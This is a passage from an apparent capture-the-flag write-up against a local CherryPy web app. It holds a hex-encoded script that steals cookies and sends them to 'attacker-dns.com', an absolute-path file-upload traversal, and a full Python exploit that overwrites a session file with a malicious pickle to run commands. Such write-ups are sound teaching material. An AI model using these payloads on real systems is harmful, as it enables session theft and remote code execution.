x70\x74\x69\x6f\x6e\x28\x29\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x7d\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x7d\x0a\x20\x20\x20\x20\x7d\x0a\x0a\x20\x20\x20\x20\x6c\x65\x61\x6b\x43\x6f\x6f\x6b\x69\x65\x56\x69\x61\x52\x54\x43\x28\x22\x61\x74\x74\x61\x63\x6b\x65\x72\x2d\x64\x6e\x73\x2e\x63\x6f\x6d\x22\x2c\x20\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x29\x3b\x0a\x20\x20\x20\x20');//
a
`` `
```

This is what the payload would look like.



Exfiltrated session via DNS.



Decoding it.



Access to admin page.

## Finding a path traversal

Now as an admin we can upload files and view them in the uploads directory.



Let's have a closer look at the code that handles this.

```py
@cherrypy.expose
def upload_file(self, file):
    username = cherrypy.session.get('username')
    if not username or not is_admin(username):
        raise cherrypy.HTTPRedirect('/login')
    
    remote_addr = cherrypy.request.remote.ip
    if remote_addr in ['127.0.0.1', '::1']:
        return self.render_template('''
            <div class="error">
                File uploads from localhost are not allowed.
                <br><a class="link futuristic-link" href="/admin">Back to Admin</a>
            </div>
        ''')

    upload_path = os.path.join(uploads_dir, file.filename)
    with open(upload_path, 'wb') as f:
        while chunk := file.file.read(8192):
            f.write(chunk)

    raise cherrypy.HTTPRedirect('/admin')
```

We can see that after the checks are made to the request, the file is written to the path that is created by joining the upload path and the user provided filename directly, without any sanitization, so this means that by using a traversal payload it is possible for us to write into any file on the container.

```
POST /upload_file HTTP/1.1
Host: localhost:1337
Content-Length: 197
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:1337
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDg9T2QJmcABgQLzB
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:1337/admin
Accept-Encoding: gzip, deflate, br
Cookie: session_id=0d1260c1f1b4ebc5f86fa8e994ca40324dd596d5
Connection: keep-alive

------WebKitFormBoundaryDg9T2QJmcABgQLzB
Content-Disposition: form-data; name="file"; filename="/test"
Content-Type: application/octet-stream

test
------WebKitFormBoundaryDg9T2QJmcABgQLzB--
```

By sending a request like this, with the absolute path `/test` in the filename.

```
/app # ls -la /
total 120
drwxr-xr-x    1 root     root          4096 Jan  5 13:40 .
drwxr-xr-x    1 root     root          4096 Jan  5 13:40 ..
-rwxr-xr-x    1 root     root             0 Jan  5 13:06 .dockerenv
drwxr-xr-x    1 root     root          4096 Jan  5 13:06 app
drwxr-xr-x    1 root     root          4096 Dec  9 20:43 bin
drwxr-xr-x    5 root     root           360 Jan  5 13:06 dev
-rw-------    1 root     root           371 Jan  1 07:20 entrypoint.sh
drwxr-xr-x    1 root     root          4096 Jan  5 13:06 etc
-rw-r--r--    1 root     root            26 Jan  1 07:20 flag660eeda1ff.txt
drwxr-xr-x    2 root     root          4096 Dec  5 12:17 home
drwxr-xr-x    1 root     root          4096 Dec  5 12:17 lib
drwxr-xr-x    5 root     root          4096 Dec  5 12:17 media
drwxr-xr-x    2 root     root          4096 Dec  5 12:17 mnt
drwxr-xr-x    2 root     root          4096 Dec  5 12:17 opt
dr-xr-xr-x  374 root     root             0 Jan  5 13:06 proc
-rwsr-xr-x    1 root     root         18416 Jan  5 09:49 readflag
drwx------    1 root     root          4096 Jan  5 13:40 root
drwxr-xr-x    1 root     root          4096 Jan  5 13:06 run
drwxr-xr-x    1 root     root          4096 Dec  9 20:43 sbin
drwxr-xr-x    2 root     root          4096 Dec  5 12:17 srv
dr-xr-xr-x   13 root     root             0 Jan  5 13:06 sys
-rw-r--r--    1 root     root             4 Jan  5 13:40 test
drwxrwxrwt    1 root     root          4096 Jan  5 13:40 tmp
drwxr-xr-x    1 root     root          4096 Jan  1 07:27 usr
drwxr-xr-x    1 root     root          4096 Dec  5 12:17 var
/app # 
```

We will notice that the `test` file is created at the root of the container. When appending an absolute path in `os.path.join` all the privious path components are ignored as described here [https://samy.blog/rtfm/](https://samy.blog/rtfm/), so we dont even have to do a traditional traversal we can simply use the absolute path of the file we want to overwrite.

## Exploiting CherryPy's file sessions

In normal situations we would be able to overwrite the web apps template files in order to cause SSTI and then get RCE through that, but in our situation no templating engine is used and all the HTML is rendered directly through `app.py`.

```py
config = {
    '/': {
        'tools.sessions.on': True,
        'tools.sessions.storage_type': 'file',
        'tools.sessions.storage_path': sessions_folder,
        'tools.response_headers.on': True,
        'tools.response_headers.headers': [
            ('Content-Security-Policy', "default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval'; style-src 'self'; img-src 'self'; connect-src 'self';")
        ],
    },
    '/static': {
        'tools.staticdir.on': True,
        'tools.staticdir.dir': static_dir,
    },
    '/uploads': {
        'tools.staticdir.on': True,
        'tools.staticdir.dir': uploads_dir,
    }
}
```

At our config we are setting the sessions to `file` mode and we are also setting the session folder. Let's have a deeper look into how CherryPy works in order to see how it's sessions work.

[https://github.com/cherrypy/cherrypy/blob/main/cherrypy/lib/sessions.py](https://github.com/cherrypy/cherrypy/blob/main/cherrypy/lib/sessions.py)

At line 559 in the `FileSession` class:

```py
def _load(self, path=None):
    assert self.locked, (
        "The session load without being locked.  "
        "Check your tools' priority levels."
    )
    if path is None:
        path = self._get_file_path()
    try:
        with open(path, "rb") as f:
            return pickle.load(f)
    except (IOError, EOFError):
        e = sys.exc_info()[1]
        if self.debug:
            cherrypy.log(
                "Error loading the session pickle: %s" % e, "TOOLS.SESSIONS"
            )
        return None
```

When the session data is loaded we can see that the notoriously unsafe `pickle.load` function is used.

```
/app # xxd /app/sessions/session-443e63207b31673160f69df5ba5666851159013d
00000000: 8005 9547 0000 0000 0000 007d 948c 0875  ...G.......}...u
00000010: 7365 726e 616d 6594 8c0a 6164 6d69 6e5f  sername...admin_
00000020: 7573 6572 9473 8c08 6461 7465 7469 6d65  user.s..datetime
00000030: 948c 0864 6174 6574 696d 6594 9394 430a  ...datetime...C.
00000040: 07e9 0105 0e39 0100 3baa 9485 9452 9486  .....9..;....R..
00000050: 942e                                     ..
```

By checking the content of a file inside the `sessions` folder we defined we will confirm that python pickles are used by the magic bytes `8005`. And since we can overwrite these files it is possible for us to add an arbitrary pickle RCE payload.

```py
def _get_file_path(self):
    f = os.path.join(self.storage_path, self.SESSION_PREFIX + self.id)
    if not os.path.abspath(f).startswith(self.storage_path):
        raise cherrypy.HTTPError(400, 'Invalid session id in cookie.')
    return f
```

At line 536 at `cherrypy/lib.sessions.p`y the `_get_file_path` function is used to get the path of a session file using `self.id` which is derived from the `session_id` cookie.

A check is implemented that prevents traversing out of the session folder absolute path, but it is not enought to protect from relative path traversal, so RCE can be caused by uploading a file named with the `session-example` prefix that includes a malicious pickle and the setting the `session_id` cookie to the part after the prefix.

```py
import requests, pickle, io, os

HOST, PORT = "127.0.0.1", 1337
CHALLENGE_URL = f"http://{HOST}:{PORT}"
ADMIN_SESSION = "session-id-exfiltrated-from-dns"

class PickleRCE(object):
    def __reduce__(self):
        return (os.system,("/readflag > /app/static/flag.txt",))

payload = pickle.dumps(PickleRCE())
pickle_file = io.BytesIO(payload)
pickle_file.name = "../../../app/sessions/session-injected"
files = {
    "file": (pickle_file.name, pickle_file, "application/octet-stream")
}
cookie_data = {
    "session_id": ADMIN_SESSION
}
requests.post(f"{CHALLENGE_URL}/upload_file", cookies=cookie_data, files=files)
cookie_data = {
    "session_id": "injected"
}
requests.post(f"{CHALLENGE_URL}/admin", cookies=cookie_data)
```

A script like this will cause an error on cherrypy's session code:

```
[05/Jan/2025:14:17:25] HTTP 
Traceback (most recent call last):
  File "/usr/local/lib/python3.11/site-packages/cherrypy/_cprequest.py", line 659, in respond
    self._do_respond(path_info)
  File "/usr/local/lib/python3.11/site-packages/cherrypy/_cprequest.py", line 718, in _do_respond
    response.body = self.handler()
                    ^^^^^^^^^^^^^^
  File "/usr/local/lib/python3.11/site-packages/cherrypy/lib/encoding.py", line 223, in __call__
    self.body = self.oldhandler(*args, **kwargs)
                ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/local/lib/python3.11/site-packages/cherrypy/_cpdispatch.py", line 54, in __call__
    return self.callable(*self.args, **self.kwargs)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/app/app.py", line 88, in admin
    username = cherrypy.session.get('username')
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/local/lib/python3.11/site-packages/cherrypy/lib/sessions.py", line 362, in get
    self.load()
  File "/usr/local/lib/python3.11/site-packages/cherrypy/lib/sessions.py", line 287, in load
    if data is None or data[1] < self.now():
                       ~~~~^^^
TypeError: 'int' object is not subscriptable
[05/Jan/2025:14:17:25] HTTP 
Request Headers:
  Remote-Addr: 172.17.0.1
  HOST: 127.0.0.1:1337
  USER-AGENT: python-requests/2.25.1
  ACCEPT-ENCODING: gzip, deflate
  ACCEPT: */*
  CONNECTION: keep-alive
  COOKIE: session_id=injected
  Content-Length: 0
```

However it will also trigger the RCE, which causes the flag file to be moved to a static folder we can access.


